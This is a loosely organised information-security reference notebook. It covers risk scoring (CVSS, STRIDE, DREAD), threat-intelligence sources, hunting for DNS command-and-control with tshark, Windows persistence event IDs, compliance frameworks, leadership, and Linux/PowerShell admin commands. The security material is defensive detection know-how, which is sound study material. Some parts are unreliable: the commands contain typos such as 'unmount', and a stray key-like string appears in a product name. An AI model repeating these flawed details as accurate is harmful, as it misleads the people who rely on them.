National Vulnerability Database (NVD) is the U.S. government repository of standards based vulnerability management data. NVD also provides severity rankings of "Low," "Medium," and "High" in addition to the numeric CVSS scores. These qualitative rankings are simply mapped from the numeric CVSS scores:

* Vulnerabilities are labeled "Low" severity if they have a CVSS base score of 0.0-3.9.
* Vulnerabilities will be labeled "Medium" severity if they have a base CVSS score of 4.0-6.9.
* Vulnerabilities will be labeled "High" severity if they have a CVSS base score of 7.0-10.0

==== STRIDE
STRIDE is a model of threats developed by Praerit Garg and Loren Kohnfelder at Microsoft[1] for identifying computer security threats.[2] It provides a mnemonic for security threats in six categories.[3]

The threats are:

* **S**poofing of user identity
* **T**ampering
* **R**epudiation
* **I**nformation disclosure (privacy breach or data leak)
* **D**enial of service (D.o.S)
* **E**levation of privilege.

==== DREAD
DREAD methodology is used to rate, compare and prioritize the severity of risk presented by each threat that is classified using STRIDE.

* **D**amage
* **R**eproducibility
* **E**xploitability
* **A**ffected Users
* **D**iscoverability

DREAD Risk = (Damage + Reproduciblity + Exploitability + Affected Users + Discoverability) / 5. Calculation always produces a number between 0 and 10. Higher the number means more serious the risk is.

Following is a customized mathematical approach to implement DREAD methodology:-

*Damage Potential*
If a threat exploit occurs, how much damage will be caused?

* 0 = Nothing
* 5 = Information disclosure that could be used in combination with other vulnerabilities
* 8 = Individual/employer non sensitive user data is compromised.
* 9 = Administrative non sensitive data is compromised.
* 10 = Complete system or data destruction.
* 10 = Application unavailability.

*Reproducible*
How easy is it to reproduce the threat exploit?

* 0 = Very hard or impossible, even for administrators of the application.
* 5 = Complex steps are required for authorized user.
* 7.5 = Easy steps for Authenticated user
* 10 = Just a web browser and the address bar is sufficient, without authentication.

*Exploit-ability*
What is needed to exploit this threat?

* 2.5 = Advanced programming and networking knowledge, with custom or advanced attack tools.
* 5 = Exploit exits in public, using available attack tools.
* 9 = A Web Application Proxy tool
* 10 = Just a web browser

*Affected Users*
How many users will be affected?

* 0 = None
* 2.5 individual/employer that is already compromised.
* 6 = some users of individual or employer privileges, but not all.
* 8 = Administrative users
* 10 = All users

*Discover-ability*
How easy is it to discover this threat?

* 0 = Very hard requires source code or administrative access.
* 5 = Can figure it out by monitoring and manipulating HTTP requests
* 8 = Details of faults like this are already in the public domain and can be easily discovered using a search engine.
* 10 = the information is visible in the web browser address bar or in a form.

DREAD methodology can be customized to cater the needs of your application, during consultancy engagements it should be approved from the client before starting the security assessment so that after you perform the analysis the results produced by DREAD couldn’t be challenged.

=== Threat Intelligence
This is the key methodology that every cyber security practictioner should be familiar with.  It ensures that one stays in sync with all the activites of threat actors and use that information to proactively protect their environments.

==== Search Engines

===== IoT



==== Threat Exchanges


==== MITRE ATT&CK
https://attack.mitre.org/[MITRE ATT&CK™] is a globally-accessible knowledge base of adversary tactics and techniques based on real-world observations. The ATT&CK knowledge base is used as a foundation for the development of specific threat models and methodologies in the private sector, in government, and in the cyber security product and service community.

With the creation of ATT&CK, MITRE is fulfilling its mission to solve problems for a safer world — by bringing communities together to develop more effective cybersecurity. ATT&CK is open and available to any person or organization for use at no charge.

==== Open Threat Exchange(OTX)

==== Palo Alto Unit42
Unit 42 is the global threat intelligence team at Palo Alto Networks®

.. Palo Alto Unit42 website: https://unit42.paloaltonetworks.com/ 
.. Playbook: https://pan-unit42.github.io/playbook_viewer/ 

https://www.packetstormsecurity.com
https://www.securityfocus.com
https://www.exploit-db.com

==== Cisco Talos
Cisco Talos Intelligence Group is one of the largest commercial threat intelligence teams in the world, comprised of world-class researchers, analysits and engineers.  These teams are supposed by unrivaled telemetry and sophisticated systems to create accurate, rapid and actionable threat intelligence for Cisco Customers, products and services.  Talos defends Cisco customers against knowns and emerging threats, discovers new vulnerabilities in common software, and interdicts threats in the wild beofre they can further harm the internet at large.  Talos maintains the official rules sets of Snort.org, ClamAV, and SpanCop, in addition to releasing many open-source research and analysis tools.

Talos was formed by combining SourceFire's Vulnerability Research Team, the Cisco Threat Research and Communications group, and the Cisco Security Applications Group.  The combined expertise is backed by a sophisticated infrastrucutre, and Cisco's unrivaled telemetry of data that spans across networks, endpoints, cloud environments, virtual systems, and daily web and email traffic.

Link: https://talosintelligence.com/ 

==== Sophos Labs


Link: https://www.sophos.com/en-us/labs.aspx 

==== STIX
STIX (Structured Threat Information eXpression) was originally conceived as a language to describe cyber threat intelligence. This was groundbreaking at the time because it was the first language to provide a definition of cyber threat intelligence. Although it’s a bit of a fuzzy term, cyber threat intelligence generally describes information about adversaries and their behaviors that can inform defensive actions. For example, knowing that a certain adversary targets financial institutions by using specially crafted spear-phishing emails, and then delivers Trojans that will reach out to a certain set of websites that are known to be malicious, can be very helpful in defending against the attack. STIX captures that type of intelligence in a machine-readable form so that it can be shared among organizations and tools.

The DHS Office of Cybersecurity and Communications funded MITRE, beginning in 2012, to act as the technical developer of STIX and serve as a community facilitator to jumpstart STIX. Once some level of maturity was reached, STIX would be transitioned to an international standards body. That goal was realized in 2015 when governance of STIX was transitioned to OASIS, an international standards consortium. This was a big step for STIX and a big success for DHS, MITRE, and the community because it meant that STIX was on its way to becoming an international standard. Although DHS and MITRE continue to serve in several leadership positions in the CTI TC, the majority of the leadership and the vast majority of participants in the TC are from industry. In fact, the OASIS CTI TC was founded with more participants than any other TC in OASIS history. It's that community that led the development of STIX 2.0.

==== TAXII
TAXII is a high-level protocol for moving cyber threat intelligence (primarily STIX) data around between systems and tools. We expect that, within the coming months, TAXII will be achieving this same milestone and opening its own public review period.

If you're interested in learning more about STIX 2.0 or TAXII 2.0, the documentation page is the best place to start.

==== Tools

===== MISP
MISP - Open Source Threat Intelligence Platform & Open Standards For Threat Information Sharing

Link: https://www.misp-project.org/

=== Threat Hunting
Threat hunting is a relatively new focal area in information security.  Actively looking for C2C in your environment.  Firewalls, IDS/IPS, SIEM are not able to detect C2C.

*Beacons*
Looking for persistent outbound signal
* Is there consistency in timing
* 

==== Sysmon
Microsoft Sysinternals Sysmon configuration repository, set up modular for easier maintenance and generation of specific configs.
link: https://github.com/olafhartong/sysmon-modular

==== Detecting C2 over DNS
* Capture all DNS traffic
** Capture tool of your choice
** Longer the capture time, the better
* Filter so it is DNS traffic only
* Extract to text so we can sort and count
* Review total FQDNs per domain
* Check domain with a lot of FQDNs

==== RITA

Link: https://www.activecountermeasures.com/free-tools/rita/ 

==== Tshark
	tshark -q -z conv,ip -r dnscat2.pcapng | tr -s ' ' | cut -d " " -f 1,2,3,10 | sort -k 4 -rn | head 
	
	tshark -r thunt-lab.pcapng -T fields -e dns.qry.name | sort |uniq | rev | cut -d '.' -f 1-2 |rev | uniq -c | sort -rn | head -10

==== Zeek
Network sniffing tool, formerly called Bro.


==== Reference Sites
. https://pentestmag.com/using-the-mitre-attck-navigator-for-intelligence-gathering-pre-purple-teaming/
. https://www.activecountermeasures.com/raspberry_pi_sensor/
. https://knowledgebase.paloaltonetworks.com/KCSArticleDetail?id=kA10g000000ClarCAC
. https://gist.github.com/MSAdministrator/7a61025263e279a740835da4b205e6d0
. https://www.twistlock.com/2019/01/02/whitelisting-blacklisting-security-strategy/
. https://en.wikipedia.org/wiki/Domain_fronting
. https://www.bleepingcomputer.com/news/security/teamviewer-confirms-undisclosed-breach-from-2016/
. https://www.linkedin.com/posts/kirtaroza_cyberthreatintelligence-note-paython-activity-6600672896148959232-J-r8/
. https://github.com/activecm/passer
. http://www.stearns.org/doc/pcap-apps.html
. HELKS
. SELKS
. Packet Squirrel https://shop.hak5.org/products/packet-squirrel
. https://register.gotowebinar.com/register/2540509980495221261?source=ACMtwitter
. netgear gs305e

=== Threat Risk Assessments
*Threat*: Any potential actor that has the capability, motivation, or intent to exploit a vulnerability.
Vulnerability: Is a weakness that allows a threat to compromise the security of a system.

*Risk*: Likelihood of a threat source to exploit a vulnerability to target a critical asset and impact a business negatively.
Controls, safeguards, countermeasures are implemented to reduce the risk.

=== Bug Bounty / Crowsourced Security Platforms
. Hackerone
. Bugcrowd
. Synack
. Detectify
. cobalt
. Open Bug Bounty
. Zerocopter
. YesWeHack
. HackenProof
. Vulnerability Lab
. FireBounty
. BugBounty.jp
. AntiHACK
. Intigriti
. SafeHats
. RedStorm
. Cyber Army ID
. Yogosha

<<<
== DFIR-Digital Forensics & Incident Response

Here is a list of https://github.com/secunoid/InformationSecurity/blob/master/DFIRTools.adoc[DFIR Tools] that can be used when responding to incidents.

Use https://github.com/secunoid/InformationSecurity/blob/master/Templates/SecurityThreatAssessment-IncidentResponseReport-Template-v01.odt[Security Threat Assessment & Incident Response Report Template] to establish an incident timeline and remeidation.

=== Preparation
. Know your tools, practise, practise, practise
. Have procedures on when and how to use your tools
. There are differences on how to respond to an incident based on based on environment, hence ensure you are familiar with the environment and know which tools to use.  You should have a playbook for each environment. Some to of environments are:
.. On Premise
.. Azure
.. GCP
.. AWS
.. Other cloud provider

=== During the Incident
. Secure the impacted environment to ensure no one but Incident Responders only
. Document every activity during the incident in a log to ensure you have a timeline
. Dump the memory using following tools(this is not an exhaustive list):
.. PMEM
.. FTKIMAGER
. Decide which logs do you need to conduct your analysis, for example:
.. Active Directory Logs if you are an AD Shop, 99% environments today are.
.. File Server Logs
.. Web Server Logs
.. Application Server Logs
.. Database Server Logs
.. Firewall Logs
.. Switch Logs
.. Router Logs
.. Access Point Logs

=== Playbooks

==== Windows Persistence
Focus on System & Security logs.  Standard artifact utilized in any investigation.

Following log types are important:

. Task logs 
. Events concerning services
.. 7045 - Code for new service installed, should be a low frequency event.
.. 7009 - Service failed to start, what should be running and is not.
.. 7035/7036 - Services being tampered with for malicious purposes. Look for services that have no descrption, and have image path that is in a non standard directory.  DLL is in the same directory as exe, which is a side loading technique. Check for start type, if it is changed to 2, which is auto start. Type 10 means that the service is running under user account authority.
.. 601 - Attempt to install a service
.. 7034 - Service has crashed unexpectedly
. Events concerning schedules tasks
.. 4698 - When a scheduled task is created on a system that has been compromised
.. 4702 - When a scheduled task has been altered
.. 4701/4699 
.. 4700 - A scheduled task has been enabled.

Scheduled tasks with abnormal names or directories.  Attackers usually create a verly long task name.  Check the command syntax.



<<<
== Enterprise Architecture
Source: https://www.youtube.com/watch?v=NUD-LXUE4tM 

*Enterprise* is any organization that is large or small with a collaborative collection of sub-organizations with a shared set of objectives.

*Architecture* is a designed structure of something.  A description of the structure (components) and behaviors (Processes) of a system.  It is also an activity required to produce such a description.

*Enterprise Architecture* is documentation describing the structure and behaviour of an enterprise including its information systems.  Also a process for describing an enterprise(including its information systems), then planning and governing changes to improve the integrity and flexibility of the enterprise.

Frameworks provide guidelines on how to implement enterprise architecture.  Frameworks address following areas:
* Content (strcuture, metamodel)
* Process (activities)
* Organization (roles, people)

Some of the frameworks are:

* TOGAF (covers all three, content, process, and organization)
* Zachman (Purely covers content)
* SABSA
* DODAF
* MODAF

Large organizations are complex, hence they can be broken down into following typical domains

. Business (Why organization exisit, objectives, goals, strategic thinking, capabilities, processes, functions, organizatinal structure)
. Data
. Application(s)
. Technology

Following domains cut across the typical domains:

. Security
. Compliance


*Architecture Activities* typically when you are performing any sort of change, you have to document the current state and future state.  This represents the strategic vision of the organization, where they want to be in 3-5 years time.

Enterprise architecture is about overseeing these changes by defining various architecture principles and standards.  Architects then govern those changes to ensure that the standards and principles are being followed.

=== SABSA
SABSA is a framework that supports the business in reaching its goals.  It is the leading methodology for developing business operational risk-based architectures.  SABSA stands for Sherwood Applied Business Security Architecture.

It provides a framework for developing risk driven enterprise information security and information assurance architectures.

It also helps to deliver security infrastructure solutions that help critical business initiatives.

The SABSA methodology provides guidance for aligning architecture with business value, it also addresses a critical need for greater integration between security and enterprise architecture within organizations.

With SABASA organizations can achieve that important risk reward balance using a range of frameworks, models, methods, and process to manage risk and measure performance.

The SABSA model is the key to this and covers the whole lifecycle of operational capabilities.  The SABSA model has six layers:

. Contextual Architecture: The Business View (Business wisdom and business decision making)
. Conceptual Architecture: The Architect's vision (The 'big picture', business attributes profiel and risk objectives)
. Logical Architecture: The Designers Vision (Information, services, processes, applications)
. Physical Architecture: The builders/constructors view(Data mechanisms, infrastructure, platforms)
. Component Architecture: The Trademan's View (Products, Tools, Specific Standards, Technologies)
. Security Services Management Architecture: The Service Manager's view (Service management activities, processes and monitoring)

Each of the layers of the architecture model are supported by a vertical analysis based on six key questions

* What
* Why
* How
* Who
* Where
* When

The SABSA framework is flexible, scalable and applicable to any industry sector.  Instead of replacing other risk based standards, it can be combined with TOGAF, COBIT and ITIL to create an integrated compliance framework.

SABSA provides organization with "enterprise operational risk management architecture" that can be completely tailored to a specific business model. 

SABSA's governance model provide a control feedback loop

. Strategy & Planning
. Design
. Implement
. Management & Measure

=== Solution Architecture

AWS Systems Manager == Microsoft SCCM
AWS Network Firewall == Microsoft Azure Firewall

==== AWS Security

https://docs.aws.amazon.com/prescriptive-guidance/latest/security-reference-architecture/architecture.html[The AWS Security Reference Architecture]

image::AWSSRA.png[title="AWS Security Reference Architecure]


image::AWSSecurityServices.png[title="AWS Security Services"]

https://github.com/aws-samples/aws-security-reference-architecture-examples[AWS Security Reference Architecture Examples Github Repository]

<<<
== Information Security  Frameworks

=== ISO2700x

=== NIST Cyber Security Framework(CSF)

Key functions are

Identify:: involves determining your IT risks and securing the necessary budget and resources to defend your digital resources. Your decisions should be based on the contextualized threat intelligence you collect. In addition to assessing internal IT risk, this goal should include analyzing the security competence of third-party vendors and any customers with which you exchange data. It’s critical to identify those that represent an elevated risk to your organization’s systems and data. It’s also important to bring in threat intelligence on the risks your competitors face because you likely face similar threats.

Protect:: is about deploying the required security controls (technologies and processes) to defend your digital assets, and then validating that these controls align to the risks you identified. For example, controls should be applied to set up defenses against exploit kits, as well as undisclosed zero-day and embargoed vulnerabilities, as identified by your threat intelligence platform. You also need to safeguard against the exploitation of high-risk vulnerabilities in your technology stack.

Detect:: revolves around your ability to block attacks before they impact digital assets. Threat intelligence helps by enabling you to identify and research the evolution and trends of malware families with high risk to your organization. In addition to identifying the security patches to apply, you will also gain intelligence on which systems are most susceptible and which are being actively targeted and exploited.

Respond:: refers to how fast your security team reacts to breaches; even the strongest security postures do not offer a 100% guarantee that cyberattacks will not succeed. Threat intelligence assists in the response process by evaluating the data exposure and the digital asset damage your organization is facing. This can then be reported to all affected parties and stakeholders — not only for remediation teams, but also for non-technical personnel who may need to prepare for the impact on day-to-day operations and the potential impact on vendors, clients, and perhaps even the overall market in which you operate.

Recover:: is all about how quickly the damage inflicted upon the organization’s technology stack and surrounding ecosystem can be mitigated, including any and all operations that must be restored as the security incidents are being closed out. Threat intelligence helps pinpoint the specific measures the security team should take in order to quarantine infected systems and inoculate the malicious elements coursing through the environment. The ultimate goal in the case of a breach, of course, is to quickly and safely restore the digital assets back to fully functioning systems with all security measures intact.

Top two are proactive measures, and bottom three are reactive measures.

=== SOC2

=== SOC2 vs ISO27001

[cols="1,1,1"]
|===
|*Area*
|*SOC 2*
|*ISO 27001*

|*Structure*
|Audit Framework
|Certification

|*Geography*
|US-Based
|International

|*Avg Timeline*
|6-12 Months
|6-24 Months

|*Avg Cost of Audit (for startups)*
|$15K+
|$20K+

|*What is Audited?*
|The design of controls at a point in time (Type 1) or the design and operating effectiveness of controls over a period of time (Type 2)
|The operational effectiveness of your Information Security Management System at a point in time

|*Requirements*
|80-100 controls to satisfy 35 criteria (for Security only)
|10 requirements with 114 suggested controls

|*Accreditation Body*
|AICPA (American Institute of Certified Public Accountants)
|ANAB (ANSI-ASQ National Accreditation Board) in the US

|*Result of Audit*
|SOC 2 Attestation Report (SOC 2 is not a certification)
|ISO Report and/or ISO Certification to be made public

|*Expiration*
|You’ll want to receive a new SOC 2 report every year which means you’ll need to be audited every year	
|Recertification happens every 3 years, but there are surveillance audits after year 1 and year 2 in between recertification audits

|*Frequency of Audit*
|Based on the review period (typically annual)
|Recertification audit every 3 years and surveillance audit (“lighter audit”) annually between recertification audits
|===

nformation Security Management Systems (ISMS)
Perhaps the most significant difference between SOC 2 and ISO27001 is that the latter requires an Information Security Management System (ISMS).

An ISMS is a management system focused on securing information. It reduces your risk of cyber attacks, helps you understand your threat landscape, and protects your confidentiality with policies, procedures, and technical controls defined and enforced within the system.

Your Chosen Markets
If you’re getting requests for a SOC 2 report, chances are you’re working with US companies. If you’re asked for ISO 27001, you’ve probably gone international. If you are planning to expand in one of these markets, you may also need to expand your security program to comply with both.

Requirements, Criteria, and Controls
ISO 27001 has 10 requirements with 114 suggested controls, spanning encryption, firewalls, infosec policies, physical access controls, and much more. ISO 27001 Annex A is where you’ll find the prescriptive list of controls you can put in place to satisfy the requirements.

For example, “10.2 – Demonstrate how the organization shall continually improve the suitability, adequacy and effectiveness of the information security management system” is a high-level requirement. It doesn’t specify how you demonstrate ongoing improvement, but it requires that you do demonstrate it.

SOC 2, on the other hand, is a set of 64 criteria split across five trust services criteria (TSC) or categories. Your organization selects which TSC to include in your audit/report (with security being the foundational one, as it’s the largest in terms of the amount of individual criteria and the only required TSC to include in a SOC 2 audit/report). It’s important to note that these criteria are not controls, and so it is up to the organization to design and implement their own controls to satisfy these criteria. This means SOC 2 is much less prescriptive than ISO 27001 and more open for interpretation.

Audit Result: Attestation Report vs. Certification
Once you’ve designed and implemented your controls to satisfy the SOC 2 criteria, you prove it by completing an audit with a licensed CPA firm, resulting in the official SOC 2 attestation report. There are two types of audits and reports: a SOC 2 Type I audit that covers the design of your controls at a single point-in-time and a SOC 2 Type II audit that attests to the design and operating effectiveness of your controls over a period of time (usually 6-12 months). Type II is more commonly requested by clients and (obviously) more extensive. Either type of SOC 2 audit results in an attestation report where the auditor gives an opinion on your compliance. The audit is conducted and the resulting report is generated annually – consistent with the period of time the report covers.

With ISO 27001, you’ll need a certification instead, which you receive after a point-in-time audit. The end result is a certificate that outlines the specific requirements met. Recertification happens every 3 years, with annual surveillance audits during the years in between.

It’s worth highlighting that with ISO 27001, you may only get a certificate, which your customers may like, but this doesn’t really describe what’s happening with specific controls at your organization. Therefore, companies often supplement their ISO 27001 certificate with a SOC 2 report, so their customers can also have the benefit of seeing the detailed system description and controls.

Cost
Getting compliant can get pricey and be time-consuming, but SOC 2 typically costs less because it doesn’t include an ISMS. Experts say the cost to become ISO 27001 compliant can be up to about 50% more than SOC 2.*

<<<
== Security Architecture

=== Network Architecture

=== Application Architecture

=== System Architecture

<<<
== Dev, Sec, Ops

Development, Operations, and Security operate as silos. 

*CiCd* or Continuous Integration and Continuous Delivery is key for *DevSecOps*

image::knowyourapplication.png[title="Know your application"]

The benefits of DEVSECOPS are:

* Observability throughout the varios stages of a user story. IDEA --> CODE --> BUILD --> DEPLOY --> MANAGE --> LEARN
* Traceability
* Confidence
* Compliance


Some activities to consider for DevSecOps:

* Threat Modeling
* Attack Surface Evaluation
* Static & dynamic code analysis
* Penetration Testing
* Security Code Reviews
* Fuzz Testing

Teams who are considering DevSecOps should think about:

* Frameworks & Tools
* Automating core security tasks
* Embedding securit controls and processes

Five principles for Securing DevOps

* Automate Security Into you DevOps process
* Integration to fail quickly
* No false Alarms
* Build Security Champions
* Keep Operational Visibility

=== OWASP Top 10 App Sec Risks

. Injection
. Broken Authentication
. Sensitive Data Exposure
. XML External Exposures (XXE)
. Broken Access Control
. Security Misconfiguration
. Cross Site Scripting
. Insecure Deserialization
. Using component with known vulnerabilities
. Insufficient Logging/Monitoring

=== Real-Word Top 10 Attacks

. Direct Object Reference
. Forceful Browsing
. Null Byte Attack
. Command Injection
. Feature Abuse
. Evasion Techniques
. Subdomin Takeover
. Misconfiguration
. Cross Site Scription
. SQL Injection 

<<<
== Governance, Risk, & Compliance

A documented process must be followed to ensure compliance to https://github.com/secunoid/InformationSecurity/blob/master/Information%20Security%20-%20A%20Comprehensive%20Reference.adoc#74-security-policy/[information security policy] and to highlight risks that might be introduced when the requirements are not adhered to.  Some of the GRC functions are:

* Enterprise Risk Management
* IT Risk Management
* Integrated Risk Management
* Operational Risk Management
* Enterprise GRC Management
* Vendor/Third-Party Risk Management
* Business Continuity
* Financial Audit
* Compliance

=== Lines of Defence
In 2013 The Institute of Internal Auditors released a position paper titled https://na.theiia.org/standards-guidance/Public%20Documents/PP%20The%20Three%20Lines%20of%20Defense%20in%20Effective%20Risk%20Management%20and%20Control.pdf/[The Three Lines of Defence In Effective Risk Management and Contol].  This paper highlighted how an organization can manage risk and how the risk gaps can be captured across the orgnization just in case it was missed at the front lines.

If the frontline/operational teams miss it, then governance teams can pick it up, and if governance teams miss it then internal audit will catch that.  After internal audit it is the regulators.

In a mature organization, 80% of the risks are handled by the frontline/operational teams, leaving little for governance and internal audit teams to identify.

image::TheThreeLinesOfDefenseModel.png[]

=== Enterprise Risk Management

* Not necessarily covered by insurance
* Multi-dimensional assessment
* Analyzes material risks and how they relate
* Spans the entire organization ("holistic")
* Proactive & continuous
* Considers both upside and downside
* Focuses on business goals, adding value and more
* Embedded in culture and mindset 

=== IT Risk Management

image::RiskCentricGRC.png[]

=== Integrated Risk Management

=== Opertional Risk Management

The top operational risks in banking include:
	
* Cybersecurity risks: Even as financial institutions ramp up their cybersecurity efforts, cyber risks, including ransomware and phishing, have become more frequent and more effective, posing a major risk to financial institutions. 
* Third-party risk: Increasingly, financial institutions are relying on third-party providers, which means they have to thoroughly identify, evaluate, and control third-party risks throughout the lifecycle of their relationships with those companies. However, financial institutions also have to identify and evaluate the risks associated with the vendors, suppliers, and contractors that their third-party vendors use. 
* Internal fraud: Losses from fraud inside a financial institution can stem from misappropriation of assets, forgery, tax non-compliance, bribes, and theft.
* External fraud: Fraud committed by third parties includes check fraud, theft, hacking, breaching system security, and data theft.
* Business disruption and systems failures: Hardware or software system failures, power failures, and disruption in telecommunications can interrupt the financial institution’s business operations and cause financial loss.

Operational risk management, which entails incorporating operational risk management practices into a financial institution’s systems, processes, and culture, should be at the center of a financial institution’s operations. Operational risk management is an ongoing process that involves risk assessment, risk decision making, and adopting internal controls to help financial institutions mitigate or avoid risk.

=== Enterprise GRC Management

=== Vendor/Third-Party Risk Management

=== Business Continuity

=== Financial Audit

=== Compliance
Compliance function ensures that all the Industry, Governmental,  & Financial requirements are adhered to.

==== Assesment Tools

Automating security assessments using CloudBXPC-W3W-TYZ-9PP-BO4G Katana: https://www.microsoft.com/security/blog/2021/08/19/automating-security-assessments-using-cloud-katana/ 

<<<
== Observability
Network Observability is the key to maintaining a secure, resilient, agile, availability, and programmability.

To establish this the network should be broken down into:

Areas: Areas where observability is required
Capability: Which capability we are after in each of the areas
Technology/Solution: Which technology/solution will help us realize this capability

image::RiskCentricGRC.png[]

The image above depicts how you should organize your area, capability, and technology matrix.

<<<
== Leadership
Having the right leadership at every level is key to the success of an organization.  This starts all the way from the top.  Leading a team is just like tending to a garden, that needs constant grooming, support and care.  It is this capability that helps the leader identify any issues and correct them before they get out of control.

Building high performing teams entirely depends on the leader.  The leader must understand they they have to deliverables are and then build their team based on business requriements to ensure alignment with business.

One, is that the leader hires team members who are domian experts and also have experience developing high performing teams.

Two, is that the leader is also a domain expert and is willing to groom and coach team members into the role they need to be in.

In each case leader is they key, they should know enough about business and domains to lead and coach the teams.

=== Leader vs Manager
A manager typically ensures tasks are assigned and delivered on time.  A leader on the other hand is someone who provides direction to the organization and the team.  A Leader invests time and energy in grooming and coaching their team members to be successful in their career at the current organization and also in their future endavours.

=== Why do team members leave?
Here are some of the reasons that might cause team members to leave an organization.

==== Not cultivating the team member
Giving someone a title does not mean that they know exactly what is required.  To set the team member(s) for success the leader has to understand which key ingredients the team member is missing to fulfill the role.  Then come up with a plan to to coach them to build and/or strengthen those capabilities and slowly move them into higher roles.

Inexperienced leaders often make this mistake of promoting a team member to a role without any coaching and skillset development.  Nine out of ten times, the leader has pretty much set the team member for failure and this also becomes the cause of stress and anxiety for the team member.  The team member ends up in meeting where they are expected for deliverables which they have never produced and have no idea on how to produce them.  Since the leader themselves are inexperienced they have no way of salvaging the situation either.

Eventually team members start looking for ways out of the team or the organization.

==== Not listening to experienced team members
Following are the situations when a leader does not listen to an experience team member: 

* Afraid of leading and bringing about the change, do not want to rock the boat
* Are incapable of visualizing the big picture as they lack the knowledge and experience
* Are in the wrong role, hence the hesitation
* Don't have a vision
* Don't have a strategy
* Don't have the self-confidence

==== Teams are not aligned with the organizational goals
It is the leaders role to ensure team members are engaged.  Engagement is brought about when the leader: 

* Ensures that the team is aware of the organizational goals and
* Has put forth a plan for the team to execute upon
* Engages with the team to track the progress and make changes as required
* Ensures that their immediate teams, if they are managing multiple teams, are aware of of each other's goals and deliverables

=== Important qualities of a leader 
Following are some of the qualities a leader should have: 

* Domain Expert, which means the leader is able to: 
** Set vision/goals for the team
** Provide career advise to team members
** Coach and train team members and set them up for success at the current organization and for their future
** Roll up the sleeves and work with the team
** Provide direction to the team
** Leverage their past exeprience
* Understand the difference between Managing People vs Leading People
* Good listener
* Familiar with Project delivery methodologies


<<<
== Kali Reference

. Add user and give root privs
.. login as root and the user

	useradd -m <username>

.. Assign a password to the user

	passwd <username>

.. Add a user to sudoers file

	usermod -a -G sudo <username>

.. Change user shell to bash

	chsh -s /bin/bash <username>

. Shrink partition
.. Login to your system as root and open a terminal window.  Lets assume the paritition is /dev/xxx/yyy and is currently 40G, and you want to reduce it to 30G

	df -k
	unmount /dev/xxx/yyy
	e2fsck -fy /dev/xxx/yyy
	resize2fs /dev/xxx/yyy 30G
	lvreduce -L 30G /dev/xxx/yyy
	resize2fs /dev/xxx/yyy
	mount /dev/xxx/yyy

. Expand partition

Lets assume the file system is /dev/xxx/yyy. Current size is 10G and you want to add another 10G
.. Show space in current Volume group, look for Free PE/Size and make note of it, in our case it

	vgdisplay

.. Extend the logical volume

	lvextend -L+10G /dev/xxx/yyy

.. Resize the filesystem

	resize2fs /dev/xxx/yyy

<<<
== Business Resilience
For a business to be sustainable it has to be able to bear any hardship it faces.  These hardships or risks can be financial, environmental, labor, suppliers, intellectual property , and technical.  Hence every business has to ensure it has documented plans on how to address the risks and become resilient.

In order for a business to be resilient, it has to ensure it follows Business Continuity Management(BCM) strategies and methodologies. BCM itself can be split into two general areas Business Continuity and Disaster Recovery.

=== Business Continuity
Some of the strategies and methodologies that a business implements are directly associated to 

==== Conference Call Guidelines
. Use a pre-conferencing/green room/waiting room (This is already configured for Teams Meetings)
. Don't re-use conference access codes (This is already configured for Teams Meetings)
. Don't record the meeting unless necessary
. Do a role call to ensure only invited attendees are on the call
. Before sharing your screen ensure you close all confidential files/applications
. If it is a sensitive meeting, and you record it, ensure the recording is encrypted and stored in a location with limited user access
. If the recording is saved on the web platform ensure you download the recording and delete it from the web platform

*References*
. NIST Guidance: https://www.nist.gov/system/files/documents/2020/03/17/Conference%20Call%20Security%20Graphic.pdf

==== Remote Working Guidelines
*Employees*

. Greet your team members using TEAMS chat feature
. Use camera when in meetings
. When in doubt call the team member
. Keep the team connected using Teams Chat and other means as per team norms.
. Over communicate
. Lock your computer when you walk away from your computer  (Windows Key + L)
. Inform you team if you are going to be away from your computer for an extended period
. Avoid multitasking

*Leader*

. Establish team norms:
.. Do we meet more frequently as a team? When? How long?
.. If we use an online meeting platform, does everyone turn on their video camera?
.. How do we ensure people are present and not multitasking?
.. What is the recommended response time to a text or email? Should we use the phone more?
.. How will we share sensitive information? Email? 
. Ensure your team knows what is the best method to contact you
. Conduct Morning Huddles
. Frequent Check-ins
. Use Teams to share for quick feedback

*References*

. https://www.forbes.com/sites/danpontefract/2020/03/01/in-the-wake-of-coronavirus-heres-how-to-lead-remote-employees/#1d44ec7152a4
. https://www.timedoctor.com/blog/run-a-remote-team/
	
=== Disaster Recovery

<<<
== Online Protection
The purpose of the internet was to connect networks for information sharing.  However, the marketers and service providers have embraced it.

=== Marketing Organizations
Marketing organizations offer free services to get access to your information such as:
 
* Age
* Gender
* Income
* Home address
* Shopping preferences
* Personal interests
* etc.

This helps them target ads to lure you into making impulse purchases.  By offering you free services, the marketing companies such as Google, Facebook, and others are after your personal information, which they sell to organizations to target their products and services to you.

=== Service Providers
All organizations who traditionally had brick and mortar presence are moving to online presence.  When you start engaging with these business online you need to have a way to identify yourself, which is usually via a userid and password.  Depending on the information these organizations hold about you, if your userid and password get compromised this could have negative consequences on you.

=== What should I do to protect myself online?
It is key that we practise good hygiene when using online services:

* Use a password that is at least 13 characters long.  If the site allows, try to use a passphrase instead, such as "My cat does not chase mice!95"
* Use a password manager to store your passwords this avoids the urge to write passwords on paper/yellow sticky notes.
* No passwords can be same
* Enable Multifactor Authentication where possible
* Ensure you are using the latest versins of all software on your computers
* When re-cycling or selling your electronic device make sure you factory reset it so that none of your information stays on it.
* Think before you click on links.
* Only open emails from people you know
* Ensure you are using the latest version of the operating systems on all your devices.
** Windows Computers: Latest version of Windows10 and associated patches
** Apple Mac Computers: Latest version of Mac OS
** Apple iPad: : Latest version of iOS
** Apple iPhones: Latest versino of iOS
** Apple Watch: Latest version of WatchOS
** Android Phones: Latest version of Android OS
** Android Tablets: Latest version of the Android OS



<<<
== Powershell Reference

. https://www.fireeye.com/blog/threat-research/2016/02/greater_visibilityt.html[Powershell Logging]
. https://github.com/PowerShell[Powershell 7]
. http://shop.oreilly.com/product/0636920024132.do[Windows Powershell Cookbook]
. https://www.youtube.com/watch?v=plqpmZruOYk[Complete Powershell in one video-beginner to professional powershell scripting]
. https://adamtheautomator.com/get-adobject/[Get-adobject]
. https://lazywinadmin.com/[Lazy Windows Administrator]
. https://www.windowscentral.com/how-create-and-run-your-first-powershell-script-file-windows-10[How to create and run a PowerShell script file on Windows 10]
. https://docs.microsoft.com/en-us/windows-server/identity/ad-ds/manage/component-updates/command-line-process-auditing[Command Line Process Auditing]
. Configure IP Address on a computer

	New-NetIPAddress -InterfaceAlias Ethernet -IPAddress 10.10.10.10 -PrefixLength 24 -DefaultGateway 10.10.10.1

. Configure DNS on a computer

